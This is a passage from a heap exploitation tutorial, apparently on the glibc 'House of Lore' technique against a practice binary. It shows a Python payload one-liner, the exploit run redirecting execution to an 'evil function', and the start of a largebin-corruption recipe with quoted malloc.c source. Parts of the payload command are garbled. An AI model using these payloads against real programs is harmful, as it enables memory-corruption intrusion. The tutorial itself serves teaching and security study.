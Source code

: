  `python -c 'import sys; sys.stdout.write("B4 + "\xD5\x85\x04\x08")' > payload`
Putting this altogether and running it, gives the expected result:  
```
 $ ./hol `python -c 'import sys; sys.stdout.write("AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x38\xCF\xFF\xFF< payload

Buff1 -> [ 0x804bfe8 ]
Buff2 -> [ 0x804c000 ]
Buff3 -> [ 0x804c088 ]

Buff4 -> [ 0x804c190 ]
LB1 -> [ 0x804c000 ]
LB2 -> [ 0xffffcf40 ]
Which is your favourite hobby? 
This is an evil function. You become a cool hacker if you are able to execute it.
Segmentation fault
```
Mission accomplished. Useless to say that ASLR was disabled during this exploitation.  

It’s time to give a look at the alternative recipe for this attack:  

## LARGEBIN CORRUPTION

Ingredients:  

* Two chunks are allocated and the first one is overflowable
* The second chunk is freed
* Another (potentially more) chunk, bigger than the second one, is allocated
* A new chunk smaller than the second one is allocated
* Another chunk with the same previous size is allocated
* The idea here is the same: corrupting the bk value of the freed chunk. The code involved into this corruption starts at line #[3912](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=e3ccbde7b5b84affbf6ff2387a5151310235f0a3;hb=1afdd17390f6febdfe559e16dfc5c5718f8934aa#l3912):  

``` c
 /*
  Process recently freed or remaindered chunks, taking one only if
  it is exact fit, or, if this a small request, the chunk is remainder from
  the most recent non-exact fit.  Place other traversed chunks in
  bins.  Note that this step is the only place in any routine where
  chunks are placed in bins.

  The outer loop here is needed because we might not realize until
  near the end of malloc that we should have consolidated, so must
  do so and retry. This happens at most once, and only when we would
  otherwise need to expand memory to service a "small" request.
*/

for(;;) {

  while ( (victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
    ...
  }

  /*
    If a large request, scan through the chunks of current bin in
    sorted order to find smallest that fits.  This is the only step
    where an unbounded number of chunks might be scanned without doing
    anything useful with them. However the lists tend to be short.
  */

  if (!in_smallbin_range(nb)) {
    bin = bin_at(av, idx);

    /* skip scan if empty or largest chunk is too small */
```